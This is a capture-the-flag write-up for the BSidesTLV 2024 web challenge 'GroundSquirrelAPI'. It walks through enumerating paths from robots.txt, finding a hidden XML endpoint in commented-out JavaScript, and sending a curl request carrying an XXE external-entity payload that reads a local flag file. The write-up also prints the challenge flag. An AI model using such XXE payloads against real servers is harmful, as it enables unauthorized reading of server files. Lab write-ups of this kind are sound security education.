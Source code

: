 # GroundSquirrelAPI

## GroundSquirrelAPI

* Category: Web
* 200 Points

### Description

> Our team found a development website as part of the external attack surface engagement, but the website seems unavailable for us.\
> Try to find a way in any way and manipulate the application logic to get the flag.
>
> No DDOS allowed

### Solution

The website itself indicates that it's under maintenance:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl https://bstlv24-groundsquirrelapi.chals.io/
<br/><Br/<br/><center><h1>Under maintenance. Please try later.</h1></center>
```

Let's check `robots.txt`:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl https://bstlv24-groundsquirrelapi.chals.io/robots.txt
User-agent: Googlebot
Disallow: /flag.txt
Disallow: /nogooglebot/
Disallow: /testeing
Disallow: /flag
Disallow: /blog-tst
Disallow: /flag-tst
Disallow: /raltime-tst
Disallow: /images
Disallow: /uploads
Disallow: /welcome-tst
Disallow: /D0notCheck
Disallow: /backups
Disallow: /download
Disallow: /bak
Disallow: /xmlapi
User-agent: *
Sitemap: sitemap.xml
```

A quick test to see which URLs are worth following:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl -s https://bstlv24-groundsquirrelapi.chals.io/robots.txt | grep Disallow | awk '{ print $2 }' | while read -r address; do status_code=$(curl -o /dev/null -s -w "%{http_co
de}" "https://bstlv24-groundsquirrelapi.chals.io$address"); echo "Path: $address, Status Code: $status_code"; done
Path: /flag.txt, Status Code: 200
Path: /nogooglebot/, Status Code: 404
Path: /testeing, Status Code: 404
Path: /flag, Status Code: 404
Path: /blog-tst, Status Code: 404
Path: /flag-tst, Status Code: 404
Path: /raltime-tst, Status Code: 404
Path: /images, Status Code: 404
Path: /uploads, Status Code: 404
Path: /welcome-tst, Status Code: 200
Path: /D0notCheck, Status Code: 404
Path: /backups, Status Code: 404
Path: /download, Status Code: 404
Path: /bak, Status Code: 404
Path: /xmlapi, Status Code: 404
```

So we should check `flag.txt` and `/welcome-tst`. Here's `flag.txt`:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl https://bstlv24-groundsquirrelapi.chals.io/flag.txt
Allowed only from localhost.
```

`/welcome-tst` looks like a landing page for an API service:

> Ground Squirrel API
>
> Use our API to get updates about any blog you'd like!
>
> (click on the button "Check Updates" for simulation)

Inspecting the sources, we find the following:

```html
      <!-- @todo: Remember to uncomment the line below for testing -->
      <!-- <a class="btn-getstarted" href="./uploadContent-tst">Check Updates</a>-->
      <a class="btn-getstarted" href="./uploadContent">Check Updates</a>
```

While `./uploadContent` is broken, `./uploadContent-tst` does seem to return some response, including:

```html
      <div class="container">
        <div class="row justify-content-center" data-aos="zoom-out">
          <div class="col-xl-7 col-lg-9 text-center">
            <h1>Ground Squirrel API Demo</h1>
            <p>Enter the payload for getting the results:<br/></p>
            <textarea cols="60" rows="15"></textarea>
            <br/><button name="updatePayload">CHECK UPDATES</button>
            <p>* Your are limit for 4 free requests.</p>
          </div>
        </div>
      </div>
```

The button itself does nothing, but when we inspect the Javascript code at `/assets/js/main.js`\
we find an interesting capability:

```javascript
/**
   * Detect Submitted Payload
   */
  const button = document.querySelector('button[name="updatePayload"]');

    // Add click event listener
    button.addEventListener('click', function(event) {
      // Handle the click event
      alert("Not Implemented.");
      /***
      // @todo: Need to fix the API into JSON instend of XML
      // Create a new XMLHttpRequest object
        var xhr = new XMLHttpRequest();
        // Configure the request
        xhr.open("POST", "./receive-xml", true);
        // Set the Content-Type header to specify that you're sending XML data
        xhr.setRequestHeader("Content-Type", "application/xml");
        // Set up a function to handle the response
        xhr.onreadystatechange = function() {
          if (xhr.readyState === XMLHttpRequest.DONE) {
            if (xhr.status === 200) {
              // Request was successful, handle the response
              console.log("Response:", xhr.responseText);
            } else {
              // Request failed
              console.error("Error:", xhr.status);
            }
          }
        };
        // Create the XML data to send
        var xmlData = '<?xml version="1.0" encoding="UTF-8"?><root><child>blogs.google.com</child></root>';
        // Send the request with the XML data
        xhr.send(xmlData);
         */
    });
```

Notice the commented-out section, which seems to be a draft for the production functionality.

We can send an XML structure and receive a response. The server might be vulnerable to[XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md),\
let's try:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/GroundSquirrelAPI]
└─$ curl -X POST -H "Content-Type: application/xml" --data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM "flag.txt">]><root><child>&test;</child></ro
ot>' https://bstlv24-groundsquirrelapi.chals.io/receive-xml
{"status":"ok","payload":"<root><child>BSidesTLV2024{D0ntMassWithGoph3rStuff!}</child></root>"}
```

The flag: `BSidesTLV2024{D0ntMassWithGoph3rStuff!}`
